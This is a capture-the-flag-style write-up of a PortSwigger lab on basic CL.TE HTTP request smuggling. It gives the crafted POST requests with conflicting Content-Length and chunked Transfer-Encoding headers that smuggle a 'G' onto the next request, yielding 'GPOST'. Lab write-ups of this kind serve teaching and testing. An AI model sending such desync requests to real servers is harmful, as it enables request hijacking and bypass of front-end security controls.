

# [HTTP request smuggling, basic CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

> the goal is to make the server response: `"Unrecognized method GPOST"`

- open the lab in burp browser
- send the `/` request to the repeater
- change the request to `HTTP/1.1`
- send it again to check if it is still working
- should return with `200`

## recon

- check with the following request:

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

- delete the rest of the headers (to make it easy to read)
- every new line is two character `\r\n`
- so the `abc` looks like -> `abc\r\n` -> 5 characters
- the content length for this request is **9** but we set it **6**

```
3\r\n
abc\r\n
X
```

- **3,\r,\n,a,b,c** -> 6 character, it chops of the **x,\r,\n**
- the frontend server checks `Transfer-Encoding: chunked`, and it sees that the content is not correct, instead of the **X** there should be a hexadecimal number, or the chunks should be closed by:

```
0\r\n
\r\n
```

- it waits for the rest, but it not arrives so times out
- this is the `CL.TE` vulnerability
- send the request

## exploit

- the goal is to send a request where the `Transfer-Encoding: chunked` finds the content to be closed, but there will be a leftover character

```
...
0\r\n
\r\n
G
```

- and the **G** will be "glued" to the next request

> first send the request that "drops" the **G** for the server then a new request that will picks up the **G**

- first request:

```
POST / HTTP/1.1
Host: 0a1700a704d3a21c8103e499007b00ad.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

- the length is **6** as it should be so the frontend lets the content trough
- after the `0` the `G` is dropped
- next request:

```
POST / HTTP/1.1
Host: 0a1700a704d3a21c8103e499007b00ad.web-security-academy.net
Content-Length: 12

duck=quack
```

- this request will picks up the dropped `G` and becomes

```
GPOST / HTTP/1.1
Host: 0a1700a704d3a21c8103e499007b00ad.web-security-academy.net
Content-Length: 12

duck=quack
```

- where the **GPOST** is not a method

> 
